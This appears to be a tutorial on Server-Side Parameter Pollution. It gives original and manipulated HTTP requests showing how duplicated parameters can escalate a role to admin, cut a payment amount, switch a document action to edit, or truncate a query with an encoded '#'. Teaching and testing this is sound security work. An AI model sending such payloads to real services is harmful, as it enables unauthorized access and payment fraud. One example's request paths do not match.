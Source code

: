 Server-Side Parameter Pollution (SSPP) is a web vulnerability where an attacker injects multiple parameters with the same name into an HTTP request. The server may interpret these parameters in unexpected ways, potentially leading to security issues such as unauthorized access, privilege escalation, or bypassing security controls.

### Testing for Server-Side Parameter Pollution

1. **Duplicate Parameters Handling:**
   - Send multiple parameters with the same name and different values to see how the server processes them. Different servers or frameworks may use the first, last, or a combination of parameter values.
   
2. **Parameter Injection in Different Contexts:**
   - Try injecting additional parameters into the URL, query string, body, or headers to see how they interact with existing parameters.

3. **Interfering with Security or Business Logic:**
   - Manipulate parameters to change roles, privileges, or other security-sensitive data.

### Example Scenarios with HTTP Requests

#### Scenario 1: Manipulating User Roles (Privilege Escalation)
Assume there is an endpoint that allows a user to update their profile information, and there is a parameter named `role` that determines the user's role.

**Original Request:**
```
POST /updateProfile
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=john&role=user
```

An attacker can attempt SSPP by injecting a second `role` parameter with a higher privilege.

**Manipulated Request:**
```
POST /updateProfile
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=john&role=user&role=admin
```

If the server takes the last parameter's value or combines them, the attacker may gain admin privileges.

#### Scenario 2: Bypassing Payment Validation
In an e-commerce platform, assume there is an endpoint to process payments, where the `amount` parameter indicates the transaction amount.

**Original Request:**
```
POST /processPayment
Host: shop.com
Content-Type: application/x-www-form-urlencoded

amount=100
```

By adding another `amount` parameter with a different value, an attacker can see if the server uses a different value.

**Manipulated Request:**
```
POST /processPayment
Host: shop.com
Content-Type: application/x-www-form-urlencoded

amount=100&amount=1
```

If the server accepts the second `amount` value, the attacker may pay only 1 unit instead of 100.

#### Scenario 3: URL Parameter Injection (Overriding Default Behavior)
An application might use a URL parameter to control access to different functionalities, such as `action=view` or `action=edit`.

**Original Request:**
```
GET /document?action=view&id=123
Host: documents.com
```

An attacker tries injecting another `action` parameter to see if it changes the server's behavior.

**Manipulated Request:**
```
GET /document?action=view&action=edit&id=123
Host: documents.com
```

If the server uses the second `action` parameter, the attacker might gain edit permissions.

### Scenario 4: Truncating query strings

You can use a URL-encoded # character to attempt to truncate the server-side request. To help you interpret the response, you could also add a string after the # character.

**Original Request**
```
GET /userSearch?name=peter&back=/home
```
**Manipulated Request:**
```
GET /users/search?name=peter#&publicProfile=true
```
